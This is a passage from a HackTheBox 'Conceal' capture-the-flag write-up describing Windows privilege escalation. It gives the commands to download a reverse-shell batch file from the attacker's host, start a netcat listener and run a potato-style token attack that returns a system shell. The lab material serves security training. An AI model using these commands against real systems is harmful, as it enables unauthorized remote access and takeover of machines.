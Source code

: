 Put this in a file named `rev.bat` on you attack machine, then download it to the target with:

```cmd
wget "http://10.10.14.49/rev.bat" -OutFile "C:\users\Destitute\appdata\local\Temp\rev.bat"
```


![bat-28](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Conceal/img/bat-28.png)


Now we can setup our listener with:

```bash
rlwrap nc -lnvp 9009
```

And execute the potato atttack with:

```cmd
C:\users\Destitute\appdata\local\Temp\jp.exe -t * -p C:\users\Destitute\appdata\local\Temp\rev.bat -l 9009 -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}"
```

Which gives us a shell:

![root-29](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Conceal/img/root-29.png)
